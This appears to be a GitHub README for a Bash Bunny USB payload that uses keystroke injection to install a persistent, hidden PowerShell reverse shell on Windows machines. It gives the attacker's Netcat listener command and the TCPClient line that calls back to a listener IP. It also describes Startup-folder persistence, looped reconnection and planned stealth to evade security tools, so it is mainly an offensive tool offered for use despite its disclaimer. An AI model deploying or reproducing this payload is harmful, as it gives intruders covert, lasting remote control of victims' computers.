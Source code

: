 # Persistent Reverse Shell via Bash Bunny

**Author:** CyberJulian  
**Category:** Network  
**Target OS:** Windows 10, 11  
**Attack Modes:** HID, STORAGE 

---

## ⚠️ Disclaimer  
This project is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is strictly prohibited.

---

## Overview  
This **Bash Bunny payload** deploys a **persistent reverse shell** on a Windows target, enabling remote access via **Netcat**. The script runs on system startup, ensuring continuous reconnection even after reboots.

## Features  
✅ **Persistent Connection** – Automatically reconnects on system startup.  
✅ **Stealthy Execution** – Runs in the background from a hidden directory.  
✅ **Command Execution** – Executes shell commands remotely and returns output.  
✅ **Automatic Deployment** – Installs via Bash Bunny keystroke injection.  

---

## How It Works

### **1️⃣ Execution via Bash Bunny**  
- The Bash Bunny injects keystrokes to **run a PowerShell command** that:  
  - Copies the reverse shell script to a **hidden directory** (`%APPDATA%\HiddenFolder`).  
  - Creates a **batch script** in the Windows **Startup folder** for persistence.  

### **2️⃣ Persistent Connection Attempt**  
- The reverse shell script **loops continuously**, trying to connect to the **designated listener IP and port**.  
- If the connection is lost, the script **retries every 5 seconds** until successful.  
- If the system reboots, the **Startup script automatically restarts the process**.

### **3️⃣ Remote Command Execution**  
- Once connected, the target device **listens for commands** from the remote listener.
- The session remains active until manually terminated.
  - To **fully terminate the script**, type "exit". This will **completely stop execution** and close the connection.
   - You'd have to wait for the computer to reboot in order to connect once more
  - To stop the connection while **keeping the script running on loop**, enter Control+C

---

## Setup Instructions

### **🔹 Listener (Attacker Machine)**
1. Start a Netcat listener on your machine:
   ```bash
   nc -lvnp 4444
   ```
   - Replace `4444` with your desired port.

### **🔹 Deployment via Bash Bunny**
1. **Edit reverse.ps1** to set the correct **listener IP address**:
- Open reverse.ps1 and locate this line:
  ```
  $client = New-Object System.Net.Sockets.TCPClient("192.168.1.0", 4444)
  ```  
  - Replace 192.168.1.0 with your listener’s IP address.  
  - Replace 4444 with your listener’s port, if necessary. 
2. **Copy the payload files** to your Bash Bunny:
   ```
   /payloads/switch1/
   ├── payload.txt
   ├── setup_reverse_shell.ps1
   ├── reverse.ps1
   ```
3. **Insert the Bash Bunny into the target Windows machine.**
4. The payload will:
   - Copy the reverse shell script to a hidden directory.
   - Create a **Startup entry** to ensure persistence.
   - Initiate the first connection attempt.

---

## Payload Breakdown

### **`payload.txt` (Main Bash Bunny Script)**
- Configures the Bash Bunny as a **HID & Storage device**.
- Runs the **PowerShell setup script** from the Bash Bunny storage.
- Executes the **reverse shell script** from its new hidden location.

### **`setup_reverse_shell.ps1` (Persistence Setup)**
- Copies `reverse.ps1` to a hidden directory.
- Creates a **Startup script** in the Windows **Startup folder**.
- Ensures the reverse shell script runs on every system boot.

### **`reverse.ps1` (Reverse Shell Loop)**
- **Attempts to connect** to the attacker's listener IP & port.
- **Executes received commands** and returns output.
- **Loops indefinitely**, retrying if disconnected.

---

## Example Output  
On the listener machine (`nc -lvnp 4444`):  
```
Reverse shell connection established.
whoami
victim-pc\user
```

---

### 🎯 **Future Enhancements**
- Force target device to **connect to desired network** if applicable.
- Implement **multi-platform support** (Mac & Linux).
- Improve **stealth** to bypass security tools & clean tracks.
- Add **encryption** for secure communication.

---

## 🏆 Credits  
Created by **CyberJulian**
